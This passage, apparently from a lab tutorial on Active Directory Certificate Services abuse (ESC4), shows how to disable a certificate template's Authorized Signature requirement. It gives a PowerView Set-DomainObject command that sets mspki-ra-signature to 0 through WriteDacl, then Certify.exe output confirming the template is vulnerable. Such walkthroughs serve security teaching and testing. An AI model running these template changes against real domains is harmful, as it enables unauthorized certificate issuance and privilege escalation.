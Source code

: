 There is no `PEND_ALL_REQUESTS` in `mspki-enrollment-flag`.
Now we can issue certificates using the ESC4 template without Manager Approval.

### Disabling Authorized Signature Requirement
Authorized Signature requirement blocks unauthorized certificate issuance.
So, to issue certificates with vulnerable certificate templates, we need to bypass this requirement.
If we have WriteDacl for target certificate template, we can disable this requirement by setting the number of Authorized Signatures to `0`.

The number of Authorized Signatures for certificate templates is specified with `mspki-ra-signature`.
Abusing WriteDacl, we can set `mspki-ra-signature` attribute to `0` by `Set-DomainObject` function of PowerView: 

```
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity ESC4 -Set @{'mspki-ra-signature'=0} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.CONTOSO.LOCAL/CN=Certificate Templates,CN=Public Key
Services,CN=Services,CN=Configuration,DC=contoso,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] Setting 'mspki-ra-signature' to '0' for object ''
PS C:\Tools>
```

The results can be verified using `Certify.exe`, etc.:

```
C:\Tools>Certify.exe find /vulnerable

--snip--

[!] Vulnerable Certificates Templates :

    CA Name                         : CA01.contoso.local\contoso-CA01-CA
    Template Name                   : ESC4
    Schema Version                  : 2
    Validity Period                 : 1 year
    Renewal Period                  : 6 weeks
    msPKI-Certificates-Name-Flag    : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag           : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required  : 0
    Application Policies            : Encrypting File System
    pkiextendedkeyusage             : Encrypting File System
    Permissions
      Enrollment Permissions
        Enrollment Rights           : CONTOSO\Domain Admins         S-1-5-21-3654360273-254804765-2004310818-512
                                      CONTOSO\Domain Users          S-1-5-21-3654360273-254804765-2004310818-513
                                      CONTOSO\Enterprise Admins     S-1-5-21-3654360273-254804765-2004310818-519

--snip--
```
